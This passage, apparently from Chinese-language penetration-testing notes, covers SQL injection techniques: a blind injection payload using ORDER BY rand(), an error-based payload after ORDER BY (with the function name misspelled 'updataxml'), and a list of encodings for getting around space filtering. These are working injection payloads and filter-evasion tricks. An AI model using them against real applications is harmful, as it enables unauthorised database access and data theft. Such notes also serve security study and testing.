 ```
基于rand()的盲注
当rand()里面为true和false的时候,数据库的排序是不同的,所以我们可以通过rand()里面语句的真假来进行盲注

order by rand(ascii(mid((select database()),1,1))>96)
```

![image-20210803130245324](images/2.png)

```
order by后的报错注入
select * from admin order by updataxml(1,concat(0x7e,database(),0x7e),1);
```



# SQL注入ByPass

## 空格过滤

常见的绕过空格过滤的方法

```
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/，括号
```
